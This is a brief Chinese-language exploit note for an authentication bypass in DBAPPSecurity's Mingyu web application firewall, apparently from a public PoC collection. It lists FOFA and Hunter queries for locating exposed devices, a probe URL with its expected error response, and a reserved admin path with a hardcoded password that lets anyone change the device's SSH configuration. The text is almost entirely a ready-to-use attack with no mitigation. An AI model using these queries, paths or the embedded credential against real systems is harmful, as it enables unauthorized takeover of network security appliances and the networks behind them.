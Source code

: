 # 安恒 明御WEB应用防火墙 任意登录漏洞

## 网络测绘

fofa: app="安恒信息-明御WAF"

hunter: web.title="明御WEB应用防火墙"

## POC / EXP

```
/report.m?a=rpc-timed
```

```
# 响应体
error_0x110005
```

```
直接访问URL，删除URI

可以更改SSH的配置
/system.m?a=reserved

在密码框中，输入密码
!@#dbapp-waf-dev-reserved#@!

就可以更改SSH配置
```